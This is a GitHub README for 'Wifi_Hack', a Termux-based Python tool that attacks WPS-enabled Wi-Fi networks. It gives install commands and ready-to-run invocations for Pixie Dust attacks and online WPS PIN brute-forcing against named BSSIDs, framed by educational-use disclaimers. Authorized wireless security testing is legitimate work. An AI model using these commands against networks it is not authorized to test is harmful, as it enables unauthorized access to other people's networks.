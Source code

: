 # Wifi_Hack
- WPS Attack Tool  A Python-based security tool for testing WPS-enabled Wi-Fi networks. Supports Pixie Dust attacks, brute-force PIN attempts, and network enumeration. Designed for penetration testers and researchers.
- ### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.


### Hack WIfi Using Termux With Rooted Devices!

<!-- Social Badges-->
<hr />
<p align=center>
    <a href="https://facebook.com/Ruhuillaaah" target="_blank"><img
            src="https://img.shields.io/badge/Facebook-%231877F2?style=for-the-badge&logoColor=white&logo=facebook"
            alt="Facebook"></a>
    <a href="https://instagram.com/ruhuillaaah_" target="_blank"><img
            src="https://img.shields.io/badge/Instagram-%23E4405F?style=for-the-badge&logoColor=white&logo=instagram"
            alt="Instagram"></a>

</p>
<hr />


<p align="center"><img src="https://i.ibb.co.com/whCnGHbr/Picsart-25-04-01-12-35-57-709-1.jpg"></p>

### Installation:  

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ rm -rf Wifi_Hack
$ git clone https://github.com/ruhul-amin-xxl/Wifi_Hack
$ cd Wifi_Hack
$ chmod +x Wifi_Hack.py
$ sudo python Wifi_Hack.py --help
```


### One line command: 

```bash
apt update && apt upgrade -y && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && rm -rf Wifi_Hack && git clone https://github.com/ruhul-amin-xxl/Wifi_Hack && cd Wifi_Hack && chmod +x Wifi_Hack.py && sudo python Wifi_Hack.py --help
```


Example:
### Note:First,  turn off your Wi-Fi.

Show available networks and start a Pixie Dust attack on a specified network: 

```bash
sudo python Wifi_Hack.py -i wlan0 -K
```


Start a Pixie Dust attack on a specific BSSID:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
Launch an online WPS brute-force attack with the specified first half of the PIN:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
```

### Troubleshooting
"Device or resource busy (-16)"
- Solution: Turn Wi-Fi ON, then turn it OFF before running the script again.

### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.
